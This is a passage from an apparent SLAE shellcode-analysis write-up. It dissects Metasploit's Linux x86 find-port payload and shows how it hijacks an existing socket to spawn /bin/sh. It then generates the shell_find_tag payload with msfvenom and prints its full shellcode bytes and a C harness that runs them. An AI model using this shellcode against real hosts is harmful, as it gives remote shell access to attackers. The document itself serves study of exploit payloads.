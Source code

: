 ```nasm
   0x00404076 <+54>:	push   ebx                        ; push pointer "/bin//sh"
   0x00404077 <+55>:	mov    ecx,esp                    ; ECX points to argv tab
   0x00404079 <+57>:	cdq                               ; set EDX to 0, null pointer 
   0x0040407a <+58>:	mov    al,0xb                     ; execve syscall
   0x0040407c <+60>:	int    0x80
```

We can see that this payload can retrieve a specific opened connection by using a loop to use the getpeername syscall with all possible value for a file descriptor without looking if the syscall is successfull, until it find the sockfd that is connected to a peer on the specified port. 
Then it overwrite stdin/stdout/stderr with the sockfd and pop a shell on the connection.

Now we will see a second payload that can be used like a second stage payload, this time, using a tag to find a specific opened connection.

### linux/x86/shell_find_tag

I've chosen this one for the same reason as the previous one, and because it implements a different technique.

So in a first time, we need to generate it and we will set the tag to find to SLAE :
```plaintext
root@kali:~# msfvenom -p linux/x86/shell_find_tag TAG=SLAE -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 69 bytes
Final size of c file: 315 bytes
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86"
"\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x53\x4c\x41\x45"
"\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79"
"\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```
Like always, we copy/paste it into this C code :
```c
#include<stdio.h>
#include<string.h>

unsigned char payload[] = \
"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86"
"\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x53\x4c\x41\x45"
"\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79"
"\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

int main()
{

	printf("Payload Length:  %d\n", strlen(payload));

	int (*ret)() = (int(*)())payload;

	ret();

}
```
